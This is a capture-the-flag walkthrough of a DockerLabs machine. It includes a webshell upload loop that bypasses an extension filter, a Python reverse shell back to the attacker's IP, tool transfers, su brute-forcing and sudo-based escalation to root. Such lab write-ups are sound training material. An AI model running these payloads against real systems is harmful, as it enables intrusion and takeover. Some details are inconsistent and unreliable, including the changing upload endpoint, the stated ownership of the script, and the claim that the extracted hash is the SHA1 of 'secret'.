








# file

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| file | Scuffito y Jul3n-dot | easy/facil | dockerlabs |

**Summary:** The file machine was a multi-stage challenge spanning anonymous FTP enumeration, a file upload filter bypass, su bruteforcing, steganography extraction, and a four-hop privilege escalation chain across four system users before reaching root. Nmap revealed anonymous FTP on port 21 with a readable `anon.txt`, and Apache on port 80. The web page source code contained a developer note pointing toward a file upload endpoint. Gobuster confirmed `file_upload.php` and an `uploads/` directory. Uploading a PHP webshell was blocked by extension filtering, but a loop testing multiple PHP variants found that `.phar` was accepted. RCE was confirmed as `www-data` and a Python3 reverse shell was delivered, with the TTY stabilised using `pty`. User enumeration revealed four accounts: `fernando`, `mario`, `julen`, and `iker`. `suBF.sh`, the su-bruteforce tool by carlospolop, was transferred via a Python HTTP server and run against `rockyou.txt`, cracking `fernando`'s password as `chocolate`. In `fernando`'s home directory, a medieval dragon JPEG was found. It was transferred to the attacker machine and analysed with stegseek, extracting a hidden file `pass.txt` containing the SHA1 hash `cbfdac6008f9cab4083784cbd1874f76618d2a97`, which decoded to the password `secret`. This hash was tried sequentially against `iker`, `julen`, and `mario`, with `mario` accepting it. As `mario`, a `sudo -l` check showed passwordless access to `/usr/bin/awk` as `julen`, used to spawn a shell. As `julen`, sudo revealed passwordless access to `/usr/bin/env` as `iker`. As `iker`, sudo revealed passwordless access to run `/usr/bin/python3 /home/iker/geo_ip.py` as root. The script was owned by `iker` so it was overwritten with `import os;os.system("/bin/bash")`, and `sudo python3 /home/iker/geo_ip.py` produced an immediate root shell. The root flag was captured.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ sudo bash auto_deploy.sh file.tar

                            ##        .
                      ## ## ##       ==         
                   ## ## ## ##      ===
               /"""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/            
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]
                                         


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-01 19:30 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12  2024 anon.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: BA:9D:4E:13:37:7A (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.19 seconds
```

The scan revealed anonymous FTP on port 21 with a readable `anon.txt`, and Apache on port 80 serving the default Ubuntu page.

---

## Initial Access

### Anonymous FTP Enumeration

**3. Connecting as Anonymous and Retrieving anon.txt**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ ftp $ip
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:ouba): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||56272|)
150 Here comes the directory listing.
drwxr-xr-x    1 0        0            4096 Sep 12  2024 .
drwxr-xr-x    1 0        0            4096 Sep 12  2024 ..
-r--r--r--    1 65534    65534          33 Sep 12  2024 anon.txt
226 Directory send OK.
ftp> get anon.txt
local: anon.txt remote: anon.txt
229 Entering Extended Passive Mode (|||44106|)
150 Opening BINARY mode data connection for anon.txt (33 bytes).
100% |********************************************|    33      383.64 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (80.56 KiB/s)
ftp> exit
221 Goodbye.
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ cat anon.txt 
53dd9c6005f3cdfc5a69c5c07388016d
```

The file contained an MD5 hash. The web application was investigated next.

### Web Enumeration and File Upload Discovery

**4. Inspecting the Web Page Source**

The Apache default page source code contained a developer note pointing toward a file upload functionality.





**5. Gobuster Directory Enumeration**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ gobuster dir -u http://$ip -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              png,txt,php,html,zip,env,bak,tar,js,css
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 11008]
uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
server-status        (Status: 403) [Size: 275]
file_upload.php      (Status: 200) [Size: 468]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

`file_upload.php` and an `uploads/` directory were confirmed. The upload form was inspected next.

### File Upload Filter Bypass

**6. Inspecting the Upload Form and Attempting Upload**





Uploading a file with a standard PHP extension was rejected by the server.



**7. Fuzzing PHP Extensions to Find an Accepted One**

A loop tested all common PHP extension variants against the upload endpoint, writing a `system()` webshell for each one and observing the server's response.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ for ext in php php2 php3 php4 php5 php6 php7 phtml pht phar phps pgif inc hphp ctp module; do echo "<?php system(\$_GET['cmd']); ?>" > shell.$ext; echo -n "[$ext] "; curl -s -F "archivo=@shell.$ext" -F "submit=Subir archivo" http://172.17.0.2/subir_archivo.php; echo ""; done
[php] Hubo un error al subir el archivo
[php2] Hubo un error al subir el archivo
[php3] Hubo un error al subir el archivo
[php4] Hubo un error al subir el archivo
[php5] Hubo un error al subir el archivo
[php6] Hubo un error al subir el archivo
[php7] Hubo un error al subir el archivo
[phtml] Hubo un error al subir el archivo
[pht] Hubo un error al subir el archivo
[phar] El archivo shell.phar ha sido subido con exito.
[phps] Hubo un error al subir el archivo
[pgif] Hubo un error al subir el archivo
[inc] Hubo un error al subir el archivo
[hphp] Hubo un error al subir el archivo
[ctp] Hubo un error al subir el archivo
[module] Hubo un error al subir el archivo
```

The `.phar` extension was accepted. The webshell was now accessible at `/uploads/shell.phar`.



**8. Confirming RCE**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ curl -s "http://172.17.0.2/uploads/shell.phar?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

RCE was confirmed as `www-data`.

### Delivering the Reverse Shell

**9. Starting the Listener and Delivering the Python3 Shell**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ curl -s "http://172.17.0.2/uploads/shell.phar?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22172.17.0.1%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22bash%22%29%27"
```

**10. Catching the Shell and Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 56586
www-data@ba6d4a166d3f:/var/www/html/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ba6d4a166d3f:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@ba6d4a166d3f:/var/www/html/uploads$ cd ../..
www-data@ba6d4a166d3f:/var/www$ export SHELL=/bin/bash
www-data@ba6d4a166d3f:/var/www$ export TERM=xterm
www-data@ba6d4a166d3f:/var/www$ stty rows 80 cols 130
```

A stable shell was obtained as `www-data`.

---

## Lateral Movement

### su Bruteforce to fernando

**11. User Enumeration**

```bash
www-data@ba6d4a166d3f:/var/www/html$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
fernando:x:1000:1000::/home/fernando:/bin/bash
mario:x:1001:1001::/home/mario:/bin/bash
julen:x:1002:1002::/home/julen:/bin/bash
iker:x:1003:1003::/home/iker:/bin/bash
www-data@ba6d4a166d3f:/var/www/html$ ls -la /home
total 24
drwxr-xr-x 1 root     root     4096 Sep 11  2024 .
drwxr-xr-x 1 root     root     4096 Aug  1 14:29 ..
drwxrwx--- 1 fernando fernando 4096 Nov 26  2024 fernando
drwxrwx--- 1 iker     iker     4096 Nov 26  2024 iker
drwxrwx--- 1 julen    julen    4096 Nov 26  2024 julen
drwxrwx--- 1 mario    mario    4096 Nov 26  2024 mario
```

Four interactive user accounts were confirmed: `fernando`, `mario`, `julen`, and `iker`.

**12. Transferring suBF.sh via Python HTTP Server**

The su bruteforce tool `suBF.sh` from `https://github.com/carlospolop/su-bruteforce` was served from the attacker machine and fetched on the target.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/opt]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
172.17.0.2 - - [01/Aug/2026 20:10:54] "GET /suBF.sh HTTP/1.1" 200 -
```

```bash
www-data@ba6d4a166d3f:/var/www/html$ wget http://172.17.0.1:8080/suBF.sh
--2026-08-01 15:10:54--  http://172.17.0.1:8080/suBF.sh
Connecting to 172.17.0.1:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4083 (4.0K) [application/x-sh]
Saving to: 'suBF.sh'

suBF.sh                            0%[                                                         ]       0  --.-KB/s            suBF.sh                          100%[========================================================>]   3.99K  --.-KB/s    in 0.002s  

2026-08-01 15:10:54 (2.19 MB/s) - 'suBF.sh' saved [4083/4083]
www-data@ba6d4a166d3f:/var/www/html$ chmod +x suBF.sh 
```

**13. Transferring rockyou.txt**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/usr/share/wordlists]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
172.17.0.2 - - [01/Aug/2026 20:11:26] "GET /rockyou.txt HTTP/1.1" 200 -
```

```bash
www-data@ba6d4a166d3f:/var/www/html$ wget http://172.17.0.1:8080/rockyou.txt
--2026-08-01 15:11:26--  http://172.17.0.1:8080/rockyou.txt
Connecting to 172.17.0.1:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 139921507 (133M) [text/plain]
Saving to: 'rockyou.txt'

rockyou.txt                        0%[                                                         ]       0  --.-KB/s            rockyou.txt                        2%[>                                                        ]   3.26M  13.6MB/s            rockyou.txt                       13%[=====>                                                   ]  17.67M  40.2MB/s            rockyou.txt                       23%[===========>                                             ]  31.84M  49.7MB/s            rockyou.txt                       34%[=================>                                       ]  46.47M  55.3MB/s            rockyou.txt                       44%[=======================>                                 ]  59.28M  57.0MB/s            rockyou.txt                       55%[=============================>                           ]  74.31M  59.9MB/s            rockyou.txt                       64%[==================================>                      ]  86.48M  60.0MB/s            rockyou.txt                       86%[===============================================>         ] 115.13M  70.2MB/s            rockyou.txt                      100%[========================================================>] 133.44M  78.8MB/s    in 1.7s    

2026-08-01 15:11:28 (78.8 MB/s) - 'rockyou.txt' saved [139921507/139921507]
```

**14. Bruteforcing fernando and Switching Users**

```bash
www-data@ba6d4a166d3f:/var/www/html$ ./suBF.sh -u fernando -w rockyou.txt 
  [+] Bruteforcing fernando...
  You can login as fernando using password: chocolate
^C
www-data@ba6d4a166d3f:/var/www/html$ su - fernando
Password: 
fernando@ba6d4a166d3f:~$ id;whoami
uid=1000(fernando) gid=1000(fernando) groups=1000(fernando)
fernando
```

### Steganography: Extracting mario's Password from a JPEG

**15. Finding and Transferring the Dragon JPEG**

`fernando`'s home directory contained a suspicious JPEG file named `dragon-medieval.` with a notable truncated extension. It was served via a Python HTTP server from the target and downloaded on the attacker machine.

```bash
fernando@ba6d4a166d3f:~$ ls -la
total 208
drwxrwx--- 1 fernando fernando   4096 Nov 26  2024 .
drwxr-xr-x 1 root     root       4096 Sep 11  2024 ..
lrwxrwxrwx 1 fernando fernando      9 Nov 26  2024 .bash_history -> /dev/null
-rw-r--r-- 1 fernando fernando    220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 fernando fernando   3765 Nov 26  2024 .bashrc
drwxrwxr-x 3 fernando fernando   4096 Sep 11  2024 .local
-rw-r--r-- 1 fernando fernando    807 Feb 25  2020 .profile
-rw-rw-r-- 1 fernando fernando 187638 Sep 11  2024 dragon-medieval.
```

```bash
fernando@ba6d4a166d3f:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
172.17.0.1 - - [01/Aug/2026 15:15:37] "GET /dragon-medieval.jpeg HTTP/1.1" 200 -
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ wget http://172.17.0.2:8080/dragon-medieval.jpeg                
--2026-08-01 20:15:37--  http://172.17.0.2:8080/dragon-medieval.jpeg
Connecting to 172.17.0.2:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 187638 (183K) [image/jpeg]
Saving to: 'dragon-medieval.jpeg'

dragon-medieval.jpeg            100%[=====================================================>] 183.24K  --.-KB/s    in 0.001s  

2026-08-01 20:15:37 (184 MB/s) - 'dragon-medieval.jpeg' saved [187638/187638]
```

**16. Extracting the Hidden Password with stegseek**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ stegseek dragon-medieval.jpeg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "secret"
[i] Original filename: "pass.txt".
[i] Extracting to "dragon-medieval.jpeg.out".


┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/file]
└─$ cat dragon-medieval.jpeg.out 
cbfdac6008f9cab4083784cbd1874f76618d2a97
```



The extracted file contained the SHA1 hash `cbfdac6008f9cab4083784cbd1874f76618d2a97`, which is the SHA1 of the string `secret`. The password `secret` was tried sequentially against all remaining users.

**17. Switching to mario**

```bash
fernando@ba6d4a166d3f:~$ su - iker
Password: 
su: Authentication failure
fernando@ba6d4a166d3f:~$ su - julen
Password: 
su: Authentication failure
fernando@ba6d4a166d3f:~$ su - mario
Password: 
mario@ba6d4a166d3f:~$ id;whoami;hostname
uid=1001(mario) gid=1001(mario) groups=1001(mario)
mario
ba6d4a166d3f
```

The password `secret` authenticated for `mario`.

---

## Privilege Escalation

### Four-Hop sudo Chain to Root

**18. mario to julen via sudo awk**

```bash
mario@ba6d4a166d3f:~$ sudo -u julen /usr/bin/awk 'BEGIN {system("/bin/bash")}'
julen@ba6d4a166d3f:/home/mario$ id;whoami;hostname
uid=1002(julen) gid=1002(julen) groups=1002(julen)
julen
ba6d4a166d3f
```

**19. julen to iker via sudo env**

```bash
julen@ba6d4a166d3f:~$ sudo -l
Matching Defaults entries for julen on ba6d4a166d3f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User julen may run the following commands on ba6d4a166d3f:
    (iker) NOPASSWD: /usr/bin/env
julen@ba6d4a166d3f:~$ sudo -u iker env /bin/bash -p
iker@ba6d4a166d3f:/home/julen$ cd           
iker@ba6d4a166d3f:~$ id;whoami
uid=1003(iker) gid=1003(iker) groups=1003(iker)
iker
```

**20. iker to root via Python Script Hijack**

A `sudo -l` check as `iker` revealed passwordless access to run `/usr/bin/python3 /home/iker/geo_ip.py` as root. The script was owned by `iker` and therefore replaceable.

```bash
iker@ba6d4a166d3f:~$ sudo -l
Matching Defaults entries for iker on ba6d4a166d3f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User iker may run the following commands on ba6d4a166d3f:
    (ALL) NOPASSWD: /usr/bin/python3 /home/iker/geo_ip.py
iker@ba6d4a166d3f:~$ ls -la
total 32
drwxrwx--- 1 iker iker 4096 Nov 26  2024 .
drwxr-xr-x 1 root root 4096 Sep 11  2024 ..
lrwxrwxrwx 1 iker iker    9 Nov 26  2024 .bash_history -> /dev/null
-rw-r--r-- 1 iker iker  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 iker iker 3765 Nov 26  2024 .bashrc
drwxrwxr-x 3 iker iker 4096 Sep 11  2024 .local
-rw-r--r-- 1 iker iker  807 Feb 25  2020 .profile
-rw-r--r-- 1 iker iker    0 Sep 11  2024 .selected_editor
drwxr-xr-x 2 root root 4096 Nov 26  2024 __pycache__
-rw-r--r-- 1 root root  178 Sep 12  2024 geo_ip.py
```

The original script was a geolocation utility.

```bash
iker@ba6d4a166d3f:~$ cat geo_ip.py 
import requests; 
ip = input('Introduce la direccion IP que quieras geolocalizar: ')
respuesta = requests.get(f'http://ip-api.com/json/{ip}')
data = respuesta.json()
print(data)
```

The file was write-protected but `iker` owned the directory, so it could be removed and replaced.

```bash
iker@ba6d4a166d3f:~$ rm geo_ip.py 
rm: remove write-protected regular file 'geo_ip.py'? y
iker@ba6d4a166d3f:~$ echo 'import os;os.system("/bin/bash")' > geo_ip.py
```

```bash
iker@ba6d4a166d3f:~$ sudo /usr/bin/python3 /home/iker/geo_ip.py
root@ba6d4a166d3f:/home/iker# cd
root@ba6d4a166d3f:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
ba6d4a166d3f
root@ba6d4a166d3f:~# ls -la
total 24
drwx------ 1 root root 4096 Nov 26  2024 .
drwxr-xr-x 1 root root 4096 Aug  1 14:29 ..
lrwxrwxrwx 1 root root    9 Nov 26  2024 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3100 Nov 26  2024 .bashrc
drwxr-xr-x 3 root root 4096 Sep 11  2024 .local
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw-r--r-- 1 root root    0 Sep 11  2024 .selected_editor
-rw-r--r-- 1 root root   33 Sep 11  2024 root.txt
root@ba6d4a166d3f:~# cat root.txt 
f0ea495293070da50a1c6e483a0525e7
```

Full root access was achieved and the root flag was captured.



---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified anonymous FTP on port 21 with a readable `anon.txt` containing an MD5 hash, and Apache on port 80. The web page source code contained a developer note pointing toward a file upload endpoint. Gobuster confirmed `file_upload.php` and `uploads/`.
2. **Exploitation**: A loop tested PHP extension variants against the upload endpoint. `.phar` was accepted. The uploaded `shell.phar` confirmed RCE as `www-data`. A URL-encoded Python3 socket reverse shell was delivered and the TTY stabilised via `pty`.
3. **Lateral Movement to fernando**: Four users were enumerated. `suBF.sh` and `rockyou.txt` were transferred via Python HTTP servers. Running `suBF.sh -u fernando -w rockyou.txt` cracked the password `chocolate`. A `su - fernando` succeeded.
4. **Steganography and Lateral Movement to mario**: `fernando`'s home contained a JPEG file. It was transferred to the attacker machine via Python HTTP server. `stegseek` extracted a hidden `pass.txt` containing the SHA1 hash `cbfdac6008f9cab4083784cbd1874f76618d2a97`, corresponding to the password `secret`. Trying it sequentially revealed `mario` accepted it.
5. **Privilege Escalation Chain**: As `mario`, `sudo -u julen /usr/bin/awk 'BEGIN {system("/bin/bash")}'` pivoted to `julen`. As `julen`, `sudo -u iker env /bin/bash -p` pivoted to `iker`. As `iker`, sudo allowed running `/usr/bin/python3 /home/iker/geo_ip.py` as root. The script was replaced with `import os;os.system("/bin/bash")`. Running `sudo python3 /home/iker/geo_ip.py` produced an immediate root shell and the root flag was captured.
